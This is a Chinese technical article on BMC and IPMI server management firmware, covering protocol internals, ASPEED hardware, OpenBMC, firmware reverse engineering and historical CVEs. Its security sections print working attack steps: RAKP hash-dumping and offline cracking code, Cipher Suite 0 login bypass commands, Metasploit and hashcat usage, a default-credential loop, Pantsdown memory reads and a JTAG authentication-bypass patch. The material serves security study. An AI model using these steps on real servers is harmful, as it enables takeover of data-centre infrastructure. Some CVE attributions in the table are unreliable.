



---
tags:
  - 固件
  - IoT
  - tier3
  - BMC
  - IPMI
---
# BMC 与 IPMI 服务器带外管理固件

> [!abstract] TL;DR
> BMC（Baseboard Management Controller）是焊在服务器主板上、独立于主机 CPU 的嵌入式管理微控制器，即使主机断电、系统崩溃或 OS 挂起，BMC 仍通过独立电源轨保持运行。它通过 IPMI（Intelligent Platform Management Interface）协议对外提供带外（out-of-band）管理能力，涵盖电源控制、传感器监控、远程 KVM、串口重定向和事件日志。IPMI 2.0 存在若干著名协议缺陷（Cipher Suite 0 认证绕过、RAKP 消息泄露哈希），已被广泛利用于横向移动和持久化植入。现代趋势是用 Redfish（REST/JSON 标准化接口）替代 IPMI，而 OpenBMC（基于 Yocto 的开源 BMC 固件）则让研究者得以深入分析运行时栈。本章从协议原理到固件逆向，覆盖 ASPEED SoC 架构、历史 CVE 分析、防御实践。

## 概述与定位

### 带外管理的核心动机

在数据中心场景中，数百乃至数万台服务器的运维面临一个根本性难题：当主机操作系统崩溃（内核 panic、蓝屏死机）、固件损坏（UEFI 阶段卡死）或硬件故障时，传统基于 SSH/RDP 的带内（in-band）管理手段完全失效——因为它们依赖主机 OS 正常运行。

BMC 的设计目标就是解决这个问题。它是一块独立的嵌入式系统：

- **独立电源**：接入机箱 5VSB（Standby 5V），只要机箱插电 BMC 就运行，与主机 ATX 电源状态无关
- **独立网口**：专用管理网卡（MGMT NIC），通常连接到物理隔离的管理网段（IPMI LAN 或 Dedicated MGMT）
- **独立存储**：SPI NOR Flash 存储 BMC 固件，与主机 SSD/HDD 完全分离
- **独立 CPU**：运行自己的 ARM 核心和轻量级 Linux，完全不依赖主机 CPU

这种架构使得运维人员能在任何情况下远程执行：开机/关机/重启、查看系统传感器（温度/电压/风扇转速）、查看 POST 代码、远程挂载 ISO 光盘、通过 KVM-over-IP 看到物理屏幕画面、访问系统事件日志。

### BMC 在服务器固件生态中的位置



BMC 与主机 CPU 之间通过多条总线互联：
- **SMBUS（System Management Bus）/ I2C**：访问 DIMM SPD、FRU EEPROM、电源模块 PMBus 数据
- **LPC（Low Pin Count）/ eSPI**：共享 BIOS SPI Flash 访问、接收 POST Code（端口 80h 字节流）
- **IPMB（Intelligent Platform Management Bus）**：基于 I2C 的 BMC 内部总线，连接卫星控制器（如独立风扇控制器、HSC 热插拔控制器）
- **USB / USB Gadget**：BMC 可以向主机虚拟 USB 网卡（NCSI 或 USB Ethernet），实现共享一条物理网口的带内/带外流量复用（USB over LAN）

## 原理与机制

### ASPEED AST2xxx SoC 详解

市场上 70% 以上的 x86 服务器 BMC 使用 ASPEED Technology 的 AST 系列 SoC。从世代角度看：

| 型号 | CPU 核心 | 主频 | DDR | Flash 上限 | 典型客户 |
|------|---------|------|-----|-----------|---------|
| AST2300 | ARM926EJ-S | 400 MHz | DDR2 | 16 MB SPI | 旧代 HP/Dell |
| AST2400 | ARM926EJ-S | 400 MHz | DDR3 | 32 MB SPI | Supermicro X9/X10 |
| AST2500 | ARM1176JZF-S | 800 MHz | DDR4 | 64 MB SPI | Dell EMC 14G、HPE Gen10 |
| AST2600 | Cortex-A7 dual-core | 1.2 GHz | DDR4 | 128 MB SPI | HPE Gen10+、Meta、Google |

AST2600 是目前（2024-2026）的主流型号，其内部集成了：
- 2× ARM Cortex-A7（主应用核运行 OpenBMC Linux）
- ARM Cortex-M3（固件安全核，处理 UEFI Secure Boot 相关的 DICE/RoT 功能）
- 视频引擎（VGA 控制器 + 帧差分压缩引擎，支持 KVM-over-IP）
- USB 2.0 OTG（虚拟媒体/USB Gadget）
- 多路 SPI 控制器（分别接 BMC Flash 和主机 BIOS Flash）
- 以太网 MAC（100M/1G，外接 PHY 芯片）

ASPEED 的固件开发传统使用经过定制的 Linux 4.x/5.x 内核，以及 busybox 或 OpenBMC（Yocto）用户态。内存分布方面，典型 AST2600 平台分配 512 MB DDR4 给 BMC 主 CPU。

### IPMI 协议栈原理

IPMI 的完整名称是 Intelligent Platform Management Interface，由 Intel、HP、NEC、Dell 共同制定，目前规范版本为 IPMI 2.0（2004 年发布，至今主流）。

IPMI 的消息结构基于 **请求/响应** 对：每条 IPMI 消息携带 NetFn（功能码，6 bit）+ LUN（逻辑单元，2 bit）+ 命令码（8 bit）。NetFn 划分功能域：

| NetFn | 值 | 功能 |
|-------|---|------|
| Chassis | 0x00 | 机箱控制：开机、关机、重置 |
| Bridge | 0x02 | IPMB 桥接 |
| Sensor/Event | 0x04 | 传感器读数与 SEL 事件 |
| App | 0x06 | 应用层：会话管理、认证 |
| Firmware | 0x08 | 固件更新 |
| Storage | 0x0A | SDR 库与 SEL 日志 |
| Transport | 0x0C | LAN 配置 |
| OEM | 0x2C–0x2E | 厂商自定义命令 |

#### IPMI-over-LAN：RMCP 与 RMCP+

IPMI 的网络传输使用 **RMCP（Remote Management Control Protocol）**，基于 UDP 623 端口。消息结构为：

```
[UDP 623] → [RMCP Header 4B] → [Session Header] → [IPMI Message] → [Integrity/Confidentiality Trailer]
```

IPMI 1.5 使用 RMCP，认证方式简单（MD5/MD2/SHA1 哈希密码后放 session header）。IPMI 2.0 引入了 **RMCP+**，强制加密并引入 RAKP（Remote Authenticated Key-exchange Protocol）认证握手：

```
客户端                                    BMC
  │── Open Session Request (RMCP+ 0x10) ──▶│
  │  含 Console Session ID、Auth/Integrity/Conf 能力位
  │
  │◀─ Open Session Response (0x11) ─────────│
  │  含 Managed System Session ID
  │
  │── RAKP Message 1 (0x12) ─────────────▶│
  │  含 Console Random (16B)、requested priv、用户名
  │
  │◀─ RAKP Message 2 (0x13) ───────────────│
  │  含 Managed Random (16B)、GUID、HMAC-SHA1(AuthCode)
  │
  │── RAKP Message 3 (0x14) ─────────────▶│
  │  含 HMAC-SHA1(密钥验证)
  │
  │◀─ RAKP Message 4 (0x15) ───────────────│
  │  含 Session Integrity Check Value
```

RAKP Message 2 中，BMC 返回一个基于如下数据的 HMAC-SHA1 值：

```
HMAC-SHA1(K_uid, Console_Random || Managed_Random || Managed_GUID || Priv || UserName_Length || UserName)
```

其中 `K_uid` 是用户密码的前 20 字节（或 HMAC-SHA256）。

### SDR、SEL 与 FRU 数据结构

**SDR（Sensor Data Record）库**是 BMC 内部维护的传感器描述数据库，每条 SDR 记录一个传感器的元数据：

```
SDR Record Type 01 (Full Sensor):
  Offset  Size  字段
  0       2B    Record ID
  2       1B    SDR Version (0x51 for IPMI 2.0)
  3       1B    Record Type (0x01 = Full Sensor)
  4       1B    Record Length
  5       3B    Sensor Owner ID / LUN / Number
  8       1B    Entity ID (0x03=Processor, 0x07=System Board, ...)
  9       1B    Entity Instance
  10      1B    Sensor Initialization
  11      1B    Sensor Capabilities
  12      1B    Sensor Type (0x01=Temperature, 0x02=Voltage, ...)
  13      1B    Event/Reading Type Code
  ...
  24      1B    Nominal Reading
  ...
  43      Var   Sensor ID String (ASCII)
```

`ipmitool sdr list` 就是读取全部 SDR 记录后解析显示的。

**SEL（System Event Log）**是 BMC 维护的系统事件环形缓冲区，默认最大 512 条，每条 16 字节：

```
SEL Record (16 bytes):
  Offset  Size  字段
  0       2B    Record ID
  2       1B    Record Type (0x02 = System Event)
  3       4B    Timestamp (Unix Epoch)
  7       3B    Generator ID (Slave Address + LUN)
  10      1B    Event Message Format Rev (0x04 for IPMI 2.0)
  11      1B    Sensor Type
  12      1B    Sensor Number
  13      1B    Event Dir/Type
  14      2B    Event Data
```

### KVM-over-IP 与虚拟媒体

ASPEED 的视频引擎会周期性捕获 VGA 帧缓冲，做帧间差分压缩，通过 RMCP+ 或专用 TCP 端口（如 AST 的 7578/5900 RFB/VNC）传给远端管理控制台。远端控制台可注入 USB HID（键鼠事件）实现完整 KVM。

虚拟媒体（Virtual Media）功能让 BMC 向主机 OS 呈现一个虚拟 USB 大容量存储设备（USB Mass Storage），实际数据来源是：
- 管理员挂载的远端 NFS/CIFS 路径上的 ISO 文件
- 管理员通过 Web UI 上传的 IMG/ISO 文件
- Redfish VirtualMedia API 指定的远端 URL

主机 OS 看到的是普通 USB 光驱，可从中引导，实现远程重装系统。

### Redfish：IPMI 的现代替代品

Redfish 是 DMTF（Distributed Management Task Force）在 2015 年发布的 RESTful 管理接口规范（DSP0266），用标准 HTTPS JSON API 替代 IPMI 的二进制 UDP 协议。

核心设计原则：
- **资源树**：每个 BMC 管理对象（系统、机箱、电源、风扇、处理器）是 `/redfish/v1/` 下的 JSON 资源
- **超媒体驱动**：通过 `@odata.id` 链接发现子资源，无需带外文档
- **事件服务**：通过 HTTP SSE 或 Webhook 推送硬件事件，替代 IPMI SEL 轮询
- **标准认证**：HTTP Basic Auth + TLS，或 Session Token

典型 Redfish 操作示例：

```bash
# 列出系统
curl -k -u admin:password https://bmc/redfish/v1/Systems/

# 获取处理器信息
curl -k -u admin:password https://bmc/redfish/v1/Systems/1/Processors/

# 远程关机（GracefulShutdown）
curl -k -X POST -u admin:password \
  -H "Content-Type: application/json" \
  -d '{"ResetType":"GracefulShutdown"}' \
  https://bmc/redfish/v1/Systems/1/Actions/ComputerSystem.Reset

# 挂载虚拟媒体
curl -k -X PATCH -u admin:password \
  -H "Content-Type: application/json" \
  -d '{"Image":"http://10.0.0.1/install.iso","Inserted":true}' \
  https://bmc/redfish/v1/Managers/1/VirtualMedia/CD/
```

### OpenBMC 架构

OpenBMC 是 Linux Foundation 下的开源 BMC 固件项目（2015 年由 Facebook 发起），基于 Yocto/OpenEmbedded 构建系统。其软件栈：

```
┌─────────────────────────────────────────────────────┐
│  systemd         ← 服务管理与依赖控制                │
├─────────────────────────────────────────────────────┤
│  phosphor-xxx    ← BMC 中间件层（D-Bus 服务集合）    │
│  ├─ phosphor-ipmi-host    IPMI over KCS/BT           │
│  ├─ phosphor-net-ipmid    IPMI over LAN (RMCP+)      │
│  ├─ bmcweb                Redfish / Web UI           │
│  ├─ phosphor-hwmon        传感器读取（hwmon → D-Bus）│
│  ├─ phosphor-sel-logger   SEL 事件记录               │
│  ├─ phosphor-fan-control  风扇 PID 控制              │
│  └─ obmc-console          Serial over LAN            │
├─────────────────────────────────────────────────────┤
│  D-Bus (dbus-broker)      ← 进程间通信总线           │
├─────────────────────────────────────────────────────┤
│  Linux Kernel 5.x + ASPEED 驱动                     │
│  (aspeed-lpc-ctrl, aspeed-video, aspeed-mctp...)    │
├─────────────────────────────────────────────────────┤
│  ASPEED AST2600 ARM Cortex-A7 Hardware               │
└─────────────────────────────────────────────────────┘
```

D-Bus 是 OpenBMC 内部 IPC 的核心，所有 phosphor 服务通过 D-Bus 对象/接口暴露数据，`bmcweb` 订阅这些对象来填充 Redfish API 响应。

## 结构/算法/伪代码详解

### BMC 固件 Flash 布局

以 Supermicro X11 系列（AST2500）为例，32 MB SPI Flash 布局：

```
地址偏移      大小      内容
0x00000000   512KB    U-Boot（第一阶段引导，原始二进制）
0x00080000   256KB    U-Boot 环境变量（冗余 A/B）
0x000C0000   4MB      Linux 内核（uImage/FIT）
0x004C0000   24MB     根文件系统（squashfs 或 cramfs）
0x01CC0000   1MB      配置持久化分区（JFFS2）
0x01DC0000   256KB    FRU 数据（原始 Binary FRU）
0x01E00000   2MB      预留/OEM 数据
```

OpenBMC 平台通常采用 A/B 冗余更新方案：Flash 分为两个 slot，每个 slot 包含完整的内核 + rootfs，U-Boot 根据 bootcount 计数决定从哪个 slot 启动，更新失败自动回滚。

### RAKP 哈希泄露：认证前用户名枚举

RAKP Message 2 的一个关键安全问题是：BMC 在 **认证成功之前** 就返回了包含 HMAC-SHA1 的 Message 2，而 HMAC 的密钥是用户密码。这意味着攻击者可以：

1. 发送 RAKP Message 1（含任意 Console Random 和目标用户名）
2. BMC 返回 RAKP Message 2（含 Managed Random、GUID 和 HMAC-SHA1）
3. 攻击者离线暴力破解：对候选密码 `P` 计算 `HMAC-SHA1(P, data)` 与 Message 2 中的哈希比对

伪代码（攻击者侧）：

```python
def rakp_offline_crack(target_bmc, username, wordlist):
    # 第一步：获取 RAKP Message 2
    session = rmcp_open_session(target_bmc, udp_port=623)
    console_random = os.urandom(16)
    
    msg1 = build_rakp_msg1(
        session_id=session.managed_id,
        console_random=console_random,
        privilege=ADMIN_PRIV,
        username=username
    )
    msg2 = session.send_recv(msg1)  # type: 0x13
    
    # 提取需要验证的字段
    managed_random = msg2.managed_random    # 16B
    managed_guid   = msg2.managed_guid      # 16B
    target_hmac    = msg2.auth_code         # 20B (SHA1) 或 32B (SHA256)
    
    # 构造 HMAC 数据块
    data = (console_random + managed_random + managed_guid
            + bytes([ADMIN_PRIV, len(username)]) + username.encode())
    
    # 第二步：离线字典攻击
    for password in wordlist:
        key = password[:20].ljust(20, b'\x00')   # IPMI 密码最长 20B
        candidate = hmac.new(key, data, hashlib.sha1).digest()
        if candidate == target_hmac:
            return password   # 成功
    return None
```

Metasploit 模块 `auxiliary/scanner/ipmi/ipmi_dumphashes` 自动化了上述流程，可在几秒内提取并保存 HMAC 哈希供 hashcat 离线破解（hashcat mode 7300）。

### Cipher Suite 0（认证绕过）深度分析

IPMI 2.0 规范定义的 Cipher Suite 0 意味着：
- Authentication Algorithm = None（无认证）
- Integrity Algorithm = None（无完整性校验）
- Confidentiality Algorithm = None（无加密）

规范允许 Cipher Suite 0 以便 BMC 在诊断模式或无密码配置场景下工作，但大量厂商实现将其作为默认启用的选项，导致任何人都可以不提供密码、直接以最高权限（Administrator）登录 BMC。

攻击验证：

```bash
# 使用 Cipher Suite 0 不输密码连接
ipmitool -I lanplus -H 192.168.1.100 -U admin -P "" -C 0 chassis power status
# 若输出 "Chassis Power is on" 则漏洞存在

# 或使用 metasploit
use auxiliary/scanner/ipmi/ipmi_cipher_zero
set RHOSTS 192.168.0.0/24
run
```

受影响的厂商覆盖面极广，2013 年 Dan Farmer 的研究（"IPMI: Freight Train to Hell"）公开披露后，多家厂商才发布补丁，但因 BMC 固件更新率极低，大量设备至今存在此漏洞。

### Pantsdown（CVE-2019-6260）原理

Pantsdown 是由 Eclypsium 在 2019 年发现的 ASPEED AST2400/2500 SoC 硬件漏洞。根因在于 ASPEED 的 LPC（Low Pin Count）桥接器暴露了两个危险的 AHB 总线接口：

- **iLPC2AHB**：通过 LPC 端口 0x4000/0x4004 可任意读写 BMC 的整个 AHB 地址空间（包括 BMC DRAM、SPI 控制器寄存器、网络 MAC 寄存器）
- **X-DMA**：从 Host 侧可触发 BMC DMA 引擎，读写 BMC 物理内存

由于主机 OS 可通过 `/dev/port` 访问 LPC I/O 端口，这意味着：

**主机 OS（有 root 权限）→ 任意读写 BMC 内存和 Flash → 完全控制 BMC**

攻击链示意：

```bash
# 从 Linux 主机侧（root）通过 iLPC2AHB 读取 BMC 物理内存
# BMC DRAM 映射到 AHB 0x80000000

# 写 LPC 地址寄存器
outl(0x80000000, 0x4004)    # AHB 地址（BMC DRAM 基址）
# 写控制寄存器触发读操作
outb(0xAA, 0x4000)
# 读 4 字节数据
data = inl(0x4000)
```

防御：ASPEED 在 AST2600 中默认禁用了 iLPC2AHB 特性，并在 AST2500 固件更新中加入了访问控制寄存器。

### USBAnywhere（CVE-2019-11181/Supermicro）

Supermicro 的虚拟媒体服务（端口 623 或 UDS）在认证上存在若干缺陷：
1. 服务在 UDP 623 的同一端口开放了一个 **未经认证** 的虚拟媒体挂载服务
2. 挂载的 ISO 文件会被 BMC 呈现给主机作为 USB 设备
3. 攻击者可挂载恶意 ISO，重启主机后从 ISO 引导，完全控制主机 OS

研究者通过 Shodan 检索 UDP 623 端口，在公网找到数千台暴露的 Supermicro BMC。

### BMC 固件逆向：从提取到分析

#### 物理提取

```
方法一：SPI Flash 在线读取（免拆）
─────────────────────────────────────
所需：Raspberry Pi / Bus Pirate / CH341A 编程器 + 夹具（SOP8 夹）
目标：BMC SPI NOR Flash（通常 Winbond W25Q256、Macronix MX25L256）

1. 定位 SPI Flash（参考主板原理图或板面标注 U/IC 丝印）
2. 在线读取（主机断电、BMC 仍由 5VSB 供电时不能直接夹读）
   → 需完全断电后夹读，或找机会拆下 Flash 芯片
3. flashrom 读取：
   flashrom -p ch341a_spi -r bmc_flash.bin
   flashrom -p linux_spi:dev=/dev/spidev0.0 -r bmc_flash.bin

方法二：UART/SSH 逻辑提取（有账号时）
─────────────────────────────────────
# BMC 一般开放 SSH（端口 22）
ssh admin@bmc-ip
# OpenBMC 下：
dd if=/dev/mtdblock0 bs=4096 > /tmp/flash.bin
# 或通过 Redfish 接口下载固件升级包（含完整固件）
curl -k -u admin:pass https://bmc/redfish/v1/UpdateService > update_info.json
```

#### 固件解包流程

```bash
# 1. binwalk 初步分析
binwalk -e bmc_flash.bin

# 典型输出（OpenBMC / Supermicro）：
# DECIMAL  HEXADECIMAL  DESCRIPTION
# 0        0x0          ARM executable / U-Boot (version 2019.04)
# 524288   0x80000      U-Boot environment (CRC32)
# 786432   0xC0000      uImage header, OS: Linux, Arch: ARM, ...
# 5242880  0x500000     Squashfs filesystem, ... little-endian, block=131072

# 2. 手动解包 squashfs（binwalk 解包后通常已经完成）
unsquashfs -d rootfs/ bmc_flash.bin.extracted/_500000.squashfs

# 3. 找 IPMI daemon、Web 服务
ls rootfs/usr/sbin/ | grep -i ipmi
ls rootfs/usr/bin/ | grep -i bmc
file rootfs/usr/sbin/ipmid   # ARM 32-bit LSB executable, ...

# 4. IDA/Ghidra 逆向关键 daemon
# Ghidra 加载 rootfs/usr/sbin/netipmid
# 搜索 "RAKP" 字符串定位认证逻辑
# 搜索 "cipher" / "auth_type" 常量定位 Cipher Suite 检查点
```

#### 关键代码模式识别

在 OpenBMC `phosphor-net-ipmid` 中，RAKP 认证核心位于 `src/sessions_manager.cpp` 和 `src/auth_algo.cpp`，逆向时重点关注：

```
# Ghidra/IDA 中搜索的关键常量和字符串
"rakp"         → RAKP 消息处理函数入口
"authAlgo"     → 认证算法选择逻辑
0x00000006     → NetFn=App, CMD=0x3A (RAKP Msg 1)
0x80           → SessionID 字段偏移
hmac_sha1_init → HMAC 计算入口（注意参数顺序：key 在第一个参数）
```

#### UBI 文件系统（NAND 闪存上的 OpenBMC）

部分 OpenBMC 平台（如 Google Cloud 使用的 BMC）采用 NAND Flash + UBI 文件系统：

```bash
# UBI 镜像解包
ubireader_extract_images bmc_flash.ubi
# 或
ubiformat 工具链：ubinfo、ubidump

# UBI Volume 通常包含：
# vol_id=0  kernel
# vol_id=1  rootfs (ubifs 格式)

# 挂载 UBIFS 分析
modprobe ubifs nandsim
ubiattach /dev/ubi_ctrl -m 0
mount -t ubifs ubi0:rootfs /mnt/rootfs
```

## 工具视角与实战

### ipmitool：瑞士军刀式 IPMI 客户端

```bash
# ===== 基础连接 =====
# 带外（LAN）连接
ipmitool -I lanplus -H <BMC_IP> -U admin -P password <command>

# 本机带内（KCS 接口，在主机 OS 上执行）
ipmitool <command>

# ===== 常用命令集 =====
# 机箱控制
ipmitool chassis power status           # 查看电源状态
ipmitool chassis power on               # 开机
ipmitool chassis power cycle            # 关机再开机
ipmitool chassis power reset            # 硬重置（不经 OS 关机）

# 传感器
ipmitool sensor list                    # 列出所有传感器及当前值
ipmitool sensor get "CPU Temp"          # 查看特定传感器

# SEL 事件日志
ipmitool sel list                       # 列出最近事件
ipmitool sel elist                      # 带传感器信息的详细格式
ipmitool sel clear                      # 清除 SEL（需要管理员权限）

# SDR 数据库
ipmitool sdr dump sensor.sdr            # 备份 SDR 到文件
ipmitool sdr list full                  # 显示完整 SDR 记录

# FRU 信息
ipmitool fru print 0                    # 打印 FRU 0（主板信息）

# 用户管理
ipmitool user list 1                    # 列出 Channel 1 的用户
ipmitool user set name 3 newuser        # 设置用户名
ipmitool user set password 3 newpass    # 设置密码
ipmitool channel setaccess 1 3 \
  link=on ipmi=on callin=on privilege=4 # 设置管理员权限

# LAN 配置
ipmitool lan print 1                    # 打印 LAN Channel 1 配置
ipmitool lan set 1 access on
ipmitool lan set 1 ipaddr 192.168.1.10

# SOL（Serial over LAN）
ipmitool sol activate                   # 连接到主机串口控制台

# 查看并修改 Cipher Suite
ipmitool channel getciphers ipmi 1      # 查看支持的 Cipher Suite
```

### ipmiPwner 与 hashcat：RAKP 哈希破解实战

```bash
# Step 1: 扫描网段内的 IPMI 服务
nmap -sU -p 623 --open 192.168.0.0/24

# Step 2: Metasploit 提取哈希
msfconsole
use auxiliary/scanner/ipmi/ipmi_dumphashes
set RHOSTS 192.168.0.0/24
set OUTPUT_HASHCAT_FILE /tmp/ipmi_hashes.txt
run
# 输出格式：admin:$rakp$<hex_data>

# Step 3: hashcat 破解（mode 7300 = IPMI 2.0 RAKP HMAC-SHA1）
hashcat -m 7300 /tmp/ipmi_hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -m 7300 /tmp/ipmi_hashes.txt -a 3 ?a?a?a?a?a?a?a?a  # 8位掩码
```

### ipmitool 与 OpenBMC 漏洞研究工具链

```bash
# ===== 漏洞扫描 =====
# 检查 Cipher 0
ipmitool -I lanplus -H <IP> -U admin -P "" -C 0 chassis power status

# ===== OpenBMC 固件分析 =====
# 拉取 OpenBMC 源码（用于对照逆向）
git clone https://github.com/openbmc/openbmc
# 重点分析目录：
# phosphor-net-ipmid/   IPMI over LAN
# bmcweb/               Redfish web 服务
# phosphor-ipmi-host/   IPMI KCS 接口

# 交叉编译调试版本（ARM 目标）
bitbake phosphor-net-ipmid -c devshell
# 或使用 QEMU 仿真 OpenBMC
# 官方提供 QEMU AST2600 目标镜像
qemu-system-arm -machine ast2600-evb \
  -kernel obmc-phosphor-image.ub \
  -drive file=obmc-phosphor-image.rootfs.wic,format=raw,if=sd \
  -net nic -net user,hostfwd=tcp::2222-:22,hostfwd=udp::6230-:623 \
  -nographic

# ===== Pantsdown 利用验证 =====
# 工具：https://github.com/eclypsium/Pantsdown
# 从主机 OS root 执行
./pantsdown --read 0x1E720000 4   # 读 BMC DRAM 某地址
./pantsdown --dump-flash           # dump BMC SPI Flash 内容
```

### Redfish 安全测试

```bash
# 用 curl 测试 Redfish 认证
curl -k https://bmc/redfish/v1/ 2>/dev/null | jq .

# 检查默认凭据
for cred in "admin:admin" "admin:password" "root:0penBmc" "admin:0penBmc"; do
    user=$(echo $cred | cut -d: -f1)
    pass=$(echo $cred | cut -d: -f2)
    code=$(curl -k -s -o /dev/null -w "%{http_code}" \
           -u "$user:$pass" https://bmc/redfish/v1/Systems/)
    echo "$cred => HTTP $code"
done

# 检查 TLS 证书（默认自签名/已知弱密钥）
openssl s_client -connect bmc:443 2>/dev/null | openssl x509 -noout -text

# 枚举账户（Redfish AccountService）
curl -k -u admin:admin https://bmc/redfish/v1/AccountService/Accounts/ | jq .
```

### JTAG 调试 ASPEED BMC

在物理访问场景（如 CTF 或红队评估拆机分析），ASPEED AST2600 暴露了 JTAG 接口：

```
AST2600 JTAG 引脚（参考 EVB 原理图）：
  TCK → GPIO B6 或专用 JTAG 引脚
  TMS → GPIO B7
  TDI → GPIO B8
  TDO → GPIO B9
  TRST → 可选

工具链：
  OpenOCD + arm-none-eabi-gdb
  配置文件：target/ast2600.cfg（社区维护）

典型调试命令：
  gdb> target remote localhost:3333
  gdb> monitor halt
  gdb> info registers        # 查看 ARM 寄存器
  gdb> x/32x 0x40000000     # 查看 BMC DRAM
  gdb> set *(int*)0x... = 0  # 内存 patch（绕过认证）
```

## 安全性与正确使用

### BMC 作为持久化位置：攻击者视角

BMC 是高价值目标的根本原因在于其独特的持久化特性：

**1. 主机 OS 完全不可见**：即使重装操作系统（格式化所有磁盘、重新安装 Linux/Windows），BMC 固件完全不受影响。恶意代码驻留在独立的 SPI Flash 中，主机侧无任何文件系统访问路径可检测到它。

**2. 主机关机/重置期间持续运行**：BMC 不仅在主机运行时活跃，在主机断电/关机期间也持续运行（依赖 5VSB）。此时 BMC 可以：
- 监控 LPC/eSPI 总线，捕获 UEFI POST 过程中明文传输的数据
- 读写 BIOS SPI Flash，植入 UEFI 植入物（从 BMC 侧修改主机固件）
- 等待主机重启后再次感染 OS Bootloader

**3. 固件更新极不频繁**：企业数据中心 BMC 固件平均数年不更新，已知漏洞长期驻留。

**4. 管理网段的横向移动价值**：攻破一台服务器的 BMC 后，可以通过 IPMI LAN 扫描整个管理网段，批量利用同类 BMC 的默认凭据或 Cipher 0 漏洞，实现对整个机架乃至整个数据中心的控制。

**典型攻击链**（Eclypsium、CISA 等机构记录的真实场景）：



### 历史重要 CVE 汇总

| CVE | 披露年份 | 影响范围 | 描述 |
|-----|---------|---------|------|
| IPMI Cipher 0 | 2013 (Dan Farmer) | 几乎所有 IPMI 2.0 实现 | Cipher Suite 0 允许无密码管理员登录 |
| CVE-2014-8272 | 2014 | Dell iDRAC6/7 | IPMI over LAN session ID 弱随机性，会话劫持 |
| CVE-2019-6260 | 2019 | ASPEED AST2400/2500 | Pantsdown：iLPC2AHB/X-DMA 允许主机 root 完全控制 BMC |
| CVE-2019-11181 | 2019 | Supermicro X11 系列 | USBAnywhere：虚拟媒体服务未认证挂载 |
| CVE-2020-7461 | 2020 | OpenBMC (bmcweb) | CSRF token 验证绕过，允许未授权执行操作 |
| CVE-2021-4034 (Polkit) | 2022 | OpenBMC（含 pwnkit 的发行版） | OpenBMC 运行 Linux，同样受通用 Linux CVE 影响 |
| CVE-2022-40258 | 2022 | AMI MegaRAC BMC | 弱密码哈希（MD5），管理员密码可从 Redfish API 泄露 |
| CVE-2022-40259 | 2022 | AMI MegaRAC BMC | Redfish API 未授权命令执行（RCE） |
| CVE-2022-40260 | 2022 | AMI MegaRAC BMC | Redfish API 任意代码执行（供应链：多家 OEM 受影响） |
